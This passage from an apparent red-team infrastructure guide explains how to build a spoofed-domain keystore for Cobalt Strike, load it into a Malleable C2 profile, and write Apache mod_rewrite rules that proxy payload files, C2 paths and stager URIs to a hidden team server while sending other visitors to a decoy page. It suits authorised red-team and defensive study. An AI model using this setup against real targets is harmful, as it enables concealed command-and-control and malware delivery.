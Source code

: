 Making the keystore for Cobalt Strike:

```
openssl pkcs12 -export -in fullchain.pem -inkey privkey.pem -out spoofdomain.p12 -name spoofdomain.com -passout pass:mypass
keytool -importkeystore -deststorepass mypass -destkeypass mypass -destkeystore spoofdomain.store -srckeystore spoofdomain.p12 -srcstoretype PKCS12 -srcstorepass mypass -alias spoofdomain.com
```

Add the keystore info to a [Malleable C2](https://www.cobaltstrike.com/help-malleable-c2) profile:

```
https-certificate {
	set keystore "spoofdomain.store";
	set password "mypass";
}
```

When the team server is started, it will leverage the provided keystore and enable SSL file hosting.

### Command and Control Redirection

Command and Control redirection is largely similar to payload redirection, except that the htaccess file will need to allow only C2, hosted file, and stager URIs.

The C2 URIs are all specified within the team server's Malleable C2 profile on the *set uri* lines. These should be allowed back to the team server using the `%{REQUEST_URI}` mod_rewrite variable.

Hosted files can be served by Cobalt Strike either via HTTP or HTTPS. Hosting the files via HTTPS will require the extra steps of creating the keystore and modifying the Malleable C2 profile; however, it will simplify the redirector's *htaccess* file ruleset. If you opt to host the files via HTTP, ensure your redirector's *htaccess* rules proxy to HTTP, rather than HTTPS.

Stager URIs will need to be redirected back to the team server if you plan to use any staged payloads during your attack path. By default, the Cobalt Strike stager URI is a random four character string. We can allow that through via a regex or, with Cobalt Strike 3.10 and newer, specify a stager URI in a Malleable C2 profile in the *http-stager* block.

Here is a ruleset that redirects that static files of *payload.exe* and *landingpage.html* to the team server over HTTP, while redirecting the C2 URIs of */legit-path-1* and */legit-path-2* and the staging uri of */stager* over HTTPS:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;font-family: monospace;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/(payload\.exe|landingpage\.html)/?$</span> <span style="color: mediumpurple">[NC]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REMOTE-HOST-IP<span style="color: dodgerblue">%{REQUEST_URI}</span></span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/(legit-path-1|legit-path-2|stager)/?$</span> <span style="color: mediumpurple">[NC]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">https://REMOTE-HOST-IP<span style="color: dodgerblue">%{REQUEST_URI}</span></span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://example.com/404</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span>
</div>
